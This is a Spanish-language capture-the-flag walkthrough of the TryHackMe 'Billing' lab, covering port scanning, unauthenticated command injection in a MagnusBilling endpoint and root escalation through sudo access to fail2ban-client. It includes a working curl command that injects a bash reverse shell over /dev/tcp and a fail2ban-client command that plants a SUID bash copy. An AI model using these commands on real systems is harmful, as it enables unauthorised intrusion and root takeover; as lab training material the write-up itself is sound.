

# BILLING [TRYHACKME] / Easy
### (Unauthenticated Remote Command Execution, fail2ban firewall bypass, fail2ban abuse for privilege escalation)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# Escaneo de Nmap

```bash
nmap -p- --open -sS -sCV -T5 10.10.26.117 -n -Pn -vvv -oN nmap_scan
```

Nos encuentra 4 puertos abiertos:

- **22** (ssh)
- **80** (http)
- **3306** (MySQL)
- **5038**




Si nos metemos en la web no hay gran cosa, pero si buscamos el nombre del servicio en google añadiendo la palabra "exploit",  nos salen los siguientes resultados:


Si vemos un par de artículos, vemos que se trata de un "Unauthenticated Remote Command Execution", es decir, que vamos a poder ejecutar comandos sin tener que loguearnos. El siguiente paso es ojear como realizar esta ejecución remota de comandos. Si miramos un par de artículos, vemos el siguiente comando:


El cual usa metasploit y una shell con sh, como yo estoy acostumbrado a otros métodos, he adaptado el comando a una reverse shell con bash normal y corriente, sin necesidad de usar programas externos ni cosas raras:

```bash
curl -s 'http://10.10.26.117/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;bash -c "bash -i >& /dev/tcp/[nuestra_ip]/[puerto] 0>&1";'
```


Y recibimos la shell:


Si nos vamos a `/home/magnus/user.txt` ya obtenemos la flag de user.


# Escalada de Privilegios

Si ponemos un `sudo -l`, vemos que podemos ejecutar como root el comando `/usr/bin/fail2ban-client`:


Si nos informamos un poco de los comandos y del funcionamiento de esta herramienta, vemos que se trata de una especie de firewall frente a intrusos que intenten acceder a la máquina o realizar ataques DDoS, bloqueando IPs cuando detecta algo raro. También he visto que hay una forma de escalar privilegios cambiando configuraciones mediante el comando `set <JAIL> action <ACT> actionban <CMD>`, el cual podemos ver en la ayuda del programa:


Lo que hay que hacer es, en primer lugar, averiguar que es el JAIL y que es el ACT en ese comando. Para ello vamos a leer un poco las instrucciones que salen por defecto cuando ejecutamos `/usr/bin/fail2ban-client`. 

JAIL lo podemos averiguar con `sudo /usr/bin/fail2ban-client status`:


Esto nos dará una lista de las JAIL disponibles, ahora para los ACT disponibles sería el comando `get [JAIL] actions`, como tenemos que utilizar un JAIL, vamos a poner el que se llama "sshd", que son las configuraciones que nos interesan, las de ssh:


Ahora que ya tenemos toda la información, podemos completar el comando de escalada de privilegios:

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "cp /bin/bash /home/magnus | chmod 4755 /home/magnus/bash"
```

He puesto ese comando ya que, al estar utilizando este programa de bloqueo de IPs, no deja establecer una reverse shell, sale automáticamente de la misma. Tampoco me ha funcionado hacer el procedimiento de crear la bash en el directorio `/tmp`, así que he decidido hacerlo en `/home/magnus`:


Ahora si ejecutamos el programa bash y le pasamos el parámetro `-p`, obtenemos una shell como root:


Por último, ejecutamos en esta nueva shell el comando `cat /root/root.txt` y ya obtendríamos la flag de root.


# ./ROOTED
